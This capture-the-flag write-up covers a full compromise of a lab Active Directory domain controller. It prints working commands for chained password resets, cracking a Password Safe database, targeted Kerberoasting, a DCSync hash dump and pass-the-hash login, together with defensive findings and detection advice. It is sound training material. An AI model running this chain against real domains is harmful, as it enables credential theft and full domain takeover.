



# Administrator — Hack The Box Writeup

| Property       | Value                                                                   |
|----------------|-------------------------------------------------------------------------|
| **Machine**    | Administrator                                                           |
| **OS**         | Windows Server (Domain Controller)                                      |
| **IP**         | 10.129.95.253                                                           |
| **Domain**     | administrator.htb                                                       |
| **Difficulty** | Medium                                                                  |
| **Author**     | PeterTheFlower/Pitiliti1                                                               |
| **Tags**       | Active Directory, BloodHound, ACL Abuse, ForceChangePassword, FTP, Password Safe, Targeted Kerberoasting, DCSync, Pass-the-Hash |

---

## Summary

Administrator is a Medium Windows Domain Controller machine that demonstrates a full Active Directory compromise chain — from provided low-privilege credentials to complete domain takeover via DCSync. The attack path chains multiple ACL-based privilege escalation hops: ForceChangePassword on one user leads to another ForceChangePassword, granting FTP access where a Password Safe database is found. After cracking the database master password, we obtain credentials for a user who has GenericWrite over a DCSync-capable account. Through targeted Kerberoasting, we crack that account's password and perform a DCSync attack to dump all domain hashes, ultimately using Pass-the-Hash for Domain Admin access.

---

## 1. Reconnaissance

### 1.1 Port Scan

```bash
nmap -p- -Pn -v -sV -sC -oN nmap.txt 10.129.95.253
```

| Port      | State | Service      | Version / Notes                               |
|-----------|-------|--------------|-----------------------------------------------|
| 21/tcp    | open  | FTP          | Microsoft ftpd                                |
| 53/tcp    | open  | DNS          | Simple DNS Plus                               |
| 88/tcp    | open  | Kerberos     | Microsoft Windows Kerberos                    |
| 135/tcp   | open  | MSRPC        | Microsoft Windows RPC                         |
| 139/tcp   | open  | NetBIOS      | Microsoft Windows netbios-ssn                 |
| 389/tcp   | open  | LDAP         | AD LDAP — Domain: **administrator.htb**       |
| 445/tcp   | open  | SMB          | Signing **enabled and required**              |
| 636/tcp   | open  | LDAPS        | tcpwrapped                                    |
| 5985/tcp  | open  | WinRM        | Microsoft HTTPAPI 2.0                         |
| 9389/tcp  | open  | ADWS         | .NET Message Framing                          |
| 47001/tcp | open  | HTTP         | Microsoft HTTPAPI 2.0                         |

> **Key observations:**
> - Standard DC ports (53, 88, 389, 636, 3268) confirm this is a Domain Controller.
> - **FTP (21)** on a DC is unusual — it may serve as a file repository and is worth investigating once we have credentials.
> - SMB signing is **required**, ruling out NTLM relay attacks.
> - **WinRM (5985)** is available for shell access with valid credentials.

### 1.2 Initial Credentials

We start with provided credentials:

```
Olivia : ichliebedich
```

---

## 2. Domain Enumeration — BloodHound

### 2.1 Data Collection

```bash
bloodhound-python -u 'Olivia' -p 'ichliebedich' -ns 10.129.95.253 -d administrator.htb -c all
```

Olivia is a member of **Remote Management Users**, so we have immediate WinRM access — but we're far from Domain Admin.

### 2.2 Attack Path Analysis

BloodHound reveals a multi-hop attack chain:



**The chain:**

```
Olivia ──ForceChangePassword──▸ michael ──ForceChangePassword──▸ benjamin
                                                                      │
                                                                      │ FTP access
                                                                      ▼
                                                               Backup.psafe3
                                                                      │
                                                                      │ Crack → emily's creds
                                                                      ▼
                                                        emily ──GenericWrite──▸ ethan
                                                                                 │
                                                                                 │ DCSync
                                                                                 ▼
                                                                          Domain Admin
```

> **Theory — ForceChangePassword ACE:**
> The `ForceChangePassword` extended right (also known as `User-Force-Change-Password` or `Reset Password`) allows the holder to change another user's password **without knowing the current one**. Unlike `GenericAll`, it doesn't grant any other permissions — just the password reset. This is commonly delegated to helpdesk groups and is frequently overly permissive in real environments.
>
> **Why it's dangerous:** It creates invisible trust chains. If User A can reset User B's password, and User B can reset User C's password, then compromising User A effectively compromises User C. The problem in performing this type of lateral movement is that we could log someone out from services, the user might want to log in and get suspicious due to the proper password not working. I wouldn't o that in a real-life scenario

---

## 3. Initial Access — Chained Password Resets

### 3.1 Olivia → Michael → Benjamin

Using `bloodyAD`, we chain two ForceChangePassword operations:

```bash
# Olivia resets Michael's password
bloodyad -d administrator.htb -u Olivia -p 'ichliebedich' -i 10.129.95.253 set password michael 'newPass123!'

# Michael resets Benjamin's password
bloodyad -d administrator.htb -u michael -p 'newPass123!' -i 10.129.95.253 set password benjamin 'newPass123!'
```

### 3.2 Benjamin's FTP Access

Benjamin doesn't have WinRM access, but the FTP service on port 21 is accessible:

```bash
ftp benjamin@10.129.95.253
# 230 User logged in.
ftp> ls
# 10-05-24  08:13AM    952  Backup.psafe3
ftp> get Backup.psafe3
```

> **Why check FTP?**
> When WinRM fails and SMB shows no interesting shares, checking every other authenticated service is essential. FTP is often used for file drops and backups on Windows servers, and it may expose files not visible via SMB.

---

## 4. Password Safe Database — Cracking and Credential Extraction

### 4.1 Cracking the Password Safe Database

> **Theory — Password Safe (`.psafe3`) Format:**
> Password Safe (designed by Bruce Schneier) stores credentials in an encrypted database using Twofish-256 with a key derived from the master password via a stretching function. The `pwsafe2john` tool extracts the verification hash, allowing offline cracking with John or Hashcat.

```bash
# Extract hash
pwsafe2john Backup.psafe3 > pwsafe.hash

# Crack with John
john --wordlist=/usr/share/wordlists/rockyou.txt pwsafe.hash
# tekieromucho     (Backu)
```

**Cracked master password:** `tekieromucho`

### 4.2 Extracted Credentials

| User      | Password                            | Valid in AD? |
|-----------|-------------------------------------|:------------:|
| emily     | UXLCI5iETUsIBoFVTj8yQFKoHjXmb      | ✅           |
| alexander | UrkIbagoxMyUGw0aPlj9B0AXSea4Sw     | ❌           |
| emma      | WwANQWnmJnGV07WQN8bMS7FMAbjNur     | ❌           |

### 4.3 Emily — WinRM Access and User Flag

```bash
evil-winrm -i 10.129.95.253 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

```powershell
*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
27de77fab6a46a62e45a47f558d12679
```

**🚩 User flag obtained.**

---

## 5. Privilege Escalation — Targeted Kerberoasting to DCSync

### 5.1 BloodHound — Emily's Privileges

BloodHound shows that Emily has **GenericWrite** over `ethan`:



And critically, `ethan` has **DCSync** privileges:



> **Theory — What is DCSync?**
> DCSync is not an exploit — it's the abuse of a **legitimate replication mechanism**. Active Directory Domain Controllers synchronize their databases (NTDS.DIT) using the Directory Replication Service (DRS) protocol. Any principal with the following rights on the domain object can request replication:
> - `DS-Replication-Get-Changes` (required)
> - `DS-Replication-Get-Changes-All` (required for password data)
> - `DS-Replication-Get-Changes-In-Filtered-Set` (optional)
>
> By default, only Domain Controllers, Domain Admins, and Enterprise Admins have these rights. If any other account has them, an attacker can use `impacket-secretsdump` or Mimikatz to replicate the entire NTDS.DIT — extracting every user's NT hash without touching the disk.

### 5.2 Targeted Kerberoasting — Emily → Ethan

Since Emily has GenericWrite over Ethan, and password reset doesn't work (Ethan is a protected account), we use **targeted Kerberoasting**:

```bash
# Step 1: Add a fake SPN to ethan
bloodyad -d Administrator.HTB -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -H 10.129.95.253 set object ethan servicePrincipalName -v 'http/ethan.administrator.htb'
# [+] ethan's servicePrincipalName has been updated
```

> **Theory — Why Targeted Kerberoasting Works with GenericWrite:**
> Kerberoasting requires the target account to have a `servicePrincipalName` (SPN). Most user accounts don't have one. However, with GenericWrite, we can **add** an SPN to any account, making it Kerberoastable. The flow:
> 1. Write a fake SPN to the target's `servicePrincipalName` attribute.
> 2. Request a TGS (Kerberos Service Ticket) for that SPN — the ticket is encrypted with the target's password hash.
> 3. Crack the TGS offline.
> 4. (Cleanup) Remove the SPN.
>
> This is stealthier than a password reset because it doesn't lock anyone out or change any authentication state. The only evidence is an LDAP modification event (5136) and a Kerberos TGS request (4769).

```bash
# Step 2: Request the TGS
python3 GetUserSPNs.py -dc-ip 10.129.95.253 Administrator.htb/emily -request

# Step 3: Crack the TGS
hashcat -m 13100 ethan_tgs.hash /usr/share/wordlists/rockyou.txt
```

**Cracked password:** `limpbizkit`

### 5.3 DCSync — Full Domain Hash Dump

With `ethan`'s credentials and his DCSync privileges, we dump the entire NTDS.DIT:

```bash
impacket-secretsdump -outputfile administrator_htb_hashes -just-dc Administrator.htb/ethan@10.129.95.253
# Password: limpbizkit
```

> **Theory — What `secretsdump` Does Behind the Scenes:**
> `impacket-secretsdump` with `-just-dc` performs a DCSync attack:
> 1. Authenticates to the DC as `ethan`.
> 2. Calls `DRSGetNCChanges()` — the same RPC call that Domain Controllers use to replicate.
> 3. Requests all user objects from the domain naming context.
> 4. Extracts NT hashes, Kerberos keys, and password history from the replicated data.
>
> The output includes the `lmhash:nthash` for every domain account — including the built-in Administrator.

**Key hashes extracted:**

| Account       | NT Hash                            |
|---------------|------------------------------------|
| Administrator | `3dc553ce4b9fd20bd016e098d2d2fd2e` |
| krbtgt        | `1181ba47d45fa2c76385a82409cbfaf6` |
| olivia        | `fbaa3e2294376dc0f5aeb6b41ffa52b7` |
| emily         | `eb200a2583a88ace2983ee5caa520f31` |
| ethan         | `5c2b9f97e0620c3d307de85a93179884` |

### 5.4 Pass-the-Hash — Domain Admin Access

> **Theory — Pass-the-Hash (PtH):**
> NTLM authentication in Windows uses the NT hash (MD4 of the password) as the authentication secret — not the plaintext password. This means that possessing the hash alone is sufficient to authenticate. `Evil-WinRM` supports the `-H` flag to pass a hash directly instead of a password.

```bash
evil-winrm -i 10.129.95.253 -u 'Administrator' \
           -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
3b9ab3d71b3783a82fcf7de2256e8a6a
```

**🚩 Root flag obtained.**

---

## 6. Attack Path Summary

```
  Olivia (provided creds)
       │
       │ ForceChangePassword
       ▼
  michael
       │
       │ ForceChangePassword
       ▼
  benjamin
       │
       │ FTP → Backup.psafe3
       │ Crack master password ("tekieromucho")
       ▼
  emily (UXLCI5iETUsIBoFVTj8yQFKoHjXmb)
       │
       │ GenericWrite over ethan
       │ Targeted Kerberoasting → "limpbizkit"
       ▼
  ethan (DCSync privileges)
       │
       │ secretsdump → all domain hashes
       ▼
  Administrator (Pass-the-Hash)
       │
       │ 🚩 root.txt
       ▼
  FULL DOMAIN COMPROMISE
```

---

## 7. Findings & Recommendations

### Finding 1 — Chained ForceChangePassword ACEs

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1098 — Account Manipulation |
| **Description** | Olivia can reset Michael's password, and Michael can reset Benjamin's password, creating a transitive trust chain that allows a single compromised account to pivot through multiple users. |

**Recommendations:**
- Audit all `ForceChangePassword` / `Reset Password` extended rights using BloodHound or `dsacls`.
- Restrict password reset rights to dedicated helpdesk accounts that are protected by MFA and PAM.
- Implement **AdminSDHolder** protections for sensitive accounts to prevent unauthorized ACE propagation.
- Monitor for Event ID 4724 (password reset by admin) and correlate with ticket/request systems — an unexpected reset should trigger an alert.

---

### Finding 2 — Sensitive File on FTP Server

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🟠 High |
| **MITRE**     | T1552.001 — Unsecured Credentials: Credentials in Files |
| **Description** | A Password Safe database (`Backup.psafe3`) containing domain credentials was accessible via FTP to the user `benjamin`. |

**Recommendations:**
- Remove password databases from FTP servers and shared storage.
- If FTP must be used, restrict it to specific IP ranges and require TLS (FTPS) to prevent credential sniffing.
- Audit FTP directory contents regularly and ensure no sensitive files are stored there.
- Consider replacing FTP entirely with SFTP or SCP, which provide stronger authentication and encryption.

---

### Finding 3 — Weak Password Safe Master Password

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🟠 High |
| **MITRE**     | T1110.002 — Brute Force: Password Cracking |
| **Description** | The Password Safe database was protected with the master password `tekieromucho`, which was cracked in under a second using `rockyou.txt`. |

**Recommendations:**
- Enforce minimum 20+ character passphrases for password database master passwords.
- Use key files as an additional authentication factor.
- Increase the iteration count / memory cost of the KDF to make cracking more expensive.
- Migrate to an enterprise password management solution with centralized access control and audit logging.

---

### Finding 4 — GenericWrite ACE Leading to Targeted Kerberoasting

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1558.003 — Steal or Forge Kerberos Tickets: Kerberoasting |
| **Description** | Emily has GenericWrite over ethan, allowing her to add a `servicePrincipalName` and perform targeted Kerberoasting. Ethan's password (`limpbizkit`) was cracked from `rockyou.txt`. |

**Recommendations:**
- Remove unnecessary GenericWrite ACEs from all user objects.
- Monitor for SPN modifications on user accounts (Event ID 5136 with attribute `servicePrincipalName`) — legitimate SPN changes are rare and should be tracked.
- Enforce strong passwords (20+ characters) for all accounts with elevated privileges, especially those with replication rights.
- Deploy **Managed Service Accounts (gMSA)** for service accounts — their passwords are 120+ character random strings, rotated automatically, making Kerberoasting infeasible.

---

### Finding 5 — DCSync Privileges on Non-Admin Account

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1003.006 — OS Credential Dumping: DCSync |
| **Description** | The user `ethan` has `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` rights on the domain object, allowing a full DCSync attack that extracts every user's NT hash. |

**Recommendations:**
- **Immediately remove** replication rights from `ethan` and any other non-DC accounts. Only Domain Controllers, Domain Admins, and Enterprise Admins should have these rights.
- Audit replication rights using: `Get-ACL "AD:\DC=administrator,DC=htb" | Select-Object -ExpandProperty Access | Where-Object {$_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"}` (the GUID for `DS-Replication-Get-Changes-All`).
- Monitor for DCSync activity by alerting on Event ID 4662 with the replication GUIDs from non-DC sources.
- Deploy **Microsoft Defender for Identity** (or equivalent) which has built-in DCSync detection.

---

### Finding 6 — Weak Passwords for Privileged Accounts

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🟠 High |
| **MITRE**     | T1078 — Valid Accounts |
| **Description** | Multiple domain accounts use weak or dictionary-based passwords: `ethan:limpbizkit`, `tekieromucho` (Password Safe master). These were cracked in seconds with standard wordlists. |

**Recommendations:**
- Deploy a **password filter** (e.g., Azure AD Password Protection) that blocks passwords found in common wordlists and their variations.
- Enforce minimum 14-character passwords with complexity requirements for all domain accounts, and 20+ characters for privileged accounts.
- Conduct periodic password audits by running offline cracking against NTDS.DIT to identify weak passwords proactively.
- Implement Fine-Grained Password Policies (FGPPs) for privileged accounts with stricter requirements than standard users.

---

## 8. Tools Used

| Tool             | Purpose                                             |
|------------------|------------------------------------------------------|
| Nmap             | Port scanning, service enumeration                   |
| BloodHound       | AD attack path visualization                         |
| bloodhound-python| BloodHound data collection from Linux                |
| bloodyAD         | AD object manipulation (password reset, SPN write)   |
| NetExec (nxc)    | SMB credential validation                            |
| FTP client       | File download from FTP service                       |
| pwsafe2john      | Password Safe hash extraction                        |
| John the Ripper  | Password Safe master password cracking               |
| Hashcat          | Kerberos TGS hash cracking                           |
| GetUserSPNs.py   | Kerberoasting — TGS request                          |
| impacket-secretsdump | DCSync — full NTDS.DIT hash extraction           |
| Evil-WinRM       | Remote shell via WinRM (password + Pass-the-Hash)    |

---

## 9. Lessons Learned

1. **Targeted Kerberoasting > password reset when possible** — against ethan, password reset was blocked (likely by a minimum password age policy), but GenericWrite still allowed us to add an SPN and Kerberoast. This demonstrates why understanding multiple exploitation techniques for each ACE type is critical — if one path is blocked, another may work.

2. **FTP on a Domain Controller is a red flag** — FTP is an unencrypted protocol with no modern security controls. Finding it on a DC immediately suggests it's serving files that someone didn't want to share via SMB, often for a reason (like avoiding share ACL audits).

3. **DCSync is the ultimate goal in AD attacks** — once you can DCSync, you own every account in the domain permanently. Even if all passwords are changed, the krbtgt hash allows Golden Ticket creation. Defenders should treat DCSync privileges with the same gravity as Domain Admin membership.

4. **Password databases with weak master passwords are a recurring theme** — both this box (Password Safe) and Puppy (KeePass) featured password databases cracked from `rockyou.txt`. In real environments, these databases are frequently the highest-value targets on file shares.

---

## References

- [BloodHound — AD Attack Path Visualization](https://bloodhound.readthedocs.io/)
- [bloodyAD — AD Privilege Escalation Tool](https://github.com/CravateRouge/bloodyAD)
- [MITRE ATT&CK — DCSync (T1003.006)](https://attack.mitre.org/techniques/T1003/006/)
- [MITRE ATT&CK — Kerberoasting (T1558.003)](https://attack.mitre.org/techniques/T1558/003/)
- [MITRE ATT&CK — Account Manipulation (T1098)](https://attack.mitre.org/techniques/T1098/)
- [Impacket — secretsdump.py](https://github.com/fortra/impacket)
- [HackTricks — DCSync Attack](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)
- [HackTricks — Kerberoasting](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/kerberoast.html)
- [HackTricks — ACL Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html)
- [Microsoft — Detecting DCSync Attacks](https://learn.microsoft.com/en-us/defender-for-identity/credential-access-alerts)
- [Microsoft — Fine-Grained Password Policies](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/introduction-to-active-directory-administrative-center-enhancements--level-100-#fine_grained_pswd_policy_mgmt)
